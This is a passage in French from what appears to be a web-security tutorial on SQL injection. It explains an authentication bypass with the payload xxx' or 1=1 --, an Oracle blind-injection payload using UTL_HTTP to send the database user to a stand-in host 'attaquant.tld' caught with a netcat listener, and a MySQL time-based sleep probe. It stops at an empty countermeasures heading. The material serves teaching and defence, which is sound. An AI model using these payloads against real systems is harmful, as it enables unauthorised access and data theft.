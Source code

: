 Cette page PHP construit la requete :
select ID from utilisateurs where login='\$login' AND password='\$password'

Si les variables \$login et \$password ne sont pas vérifiées, on peut injecter ce que l'on veut dans la requete afin de contourner le controle d'accès :
select ID from utilisateurs where login='xxx' or 1=1 -- ' AND password='yyy'

Ici, la valeur envoyée pour \$login est :
xxx' or 1=1 --
Le double tiret forçant tout ce qui suit dans la requete à être ignoré.


\subsection{SQLi à l'aveugle (Blind)}\label{vulnerabilites:web:sqli:blind}

Lorsque les résultats des requêtes SQL ne sont pas directement affichés par l'application web, il va falloir travailler de manière détournée, en aveugle.

Par exemple, la requête (Oracle) suivante va envoyer des information vers la machine de l'attaquant : 
\begin{center}
http://www.monsite.tld/product.php?id=10

||UTL_HTTP.request(‘attaquant.tld:80’

||(SELECT user FROM DUAL)--
\end{center}

Qui va recevoir le nom de l'utilisateur connecté à la base de données :
\begin{center}
/home/attaquant/nc –nLp 80
 
GET /ROBERT HTTP/1.1

Host: attaquant.tld

Connection: close

\end{center}

Une autre technique très connue est celle par délai d'attente, par exemple pour déterminer la version de MySQL utilisée :

\begin{center}
http://www.monsite.tld/product.php?id=10 AND IF(version() like ‘5\%’, sleep(10), ‘false’))--
\end{center}

Ici, l'observation du temps de réponse de la requête indiquera si la cible utilise MySQL 5.X.

\subsection{Contre-mesures}\label{vulnerabilites:web:sqli:countermeasures}

